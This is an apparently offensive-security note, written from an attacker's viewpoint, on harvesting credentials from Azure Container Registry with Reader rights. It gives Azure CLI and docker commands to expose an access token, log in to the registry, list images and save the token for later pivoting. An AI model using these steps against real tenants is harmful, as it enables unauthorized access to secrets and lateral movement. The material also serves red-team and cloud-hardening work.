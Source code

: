 # Hunting credentials in Azure Container Registry

### For many Azure services, Microsoft usually keeps a separation between management plane access and data plane access. This means that explicit permissions beyond the typical management roles are needed to access data stored within services. This architecture was not implemented for the ACR service. It is an interesting architecture choice, but Azure users with Reader permissions on any Azure container registries have rights to connect to the container registry and access images. These users do not have any rights to push modified images back to the registry, but they are able to download and run container images locally. This allows us, as attackers, to review the contents of the images and potentially find issues in the application code, access secrets used by the application, and pivot with those secrets into other applications and services. 

### The process to do this is very simple. As an authenticated user, with Reader or higher permissions on the registry, we can generate a Docker login from the Azure CLI.

## Steps

 - az login -u READER_USER@DOMAIN.LOCAL -p PASSWORD (Authenticate to the Azure environment using the reader role)

 - az acr list -o table (List the container registries in the subscription)

### Generate a Docker login for the registry

 - acr=ACR_NAME (Store the container registry in a variable)

 - loginserver=$(az acr login -n $acr --expose-token --query loginServer -o tsv)

 - accesstoken=$(az acr login -n $acr --expose-token --query accessToken -o tsv)

 - docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken

 - az acr repository list -n $acr (List the images in the container registry)

 - az acr repository show-tags -n $acr --repository REPOSITORY (List the tags for a specific container registry to enumerate image versions)

### Make note of the registry credentials for further usage

 - echo $loginserver

 - echo $accesstoken
   

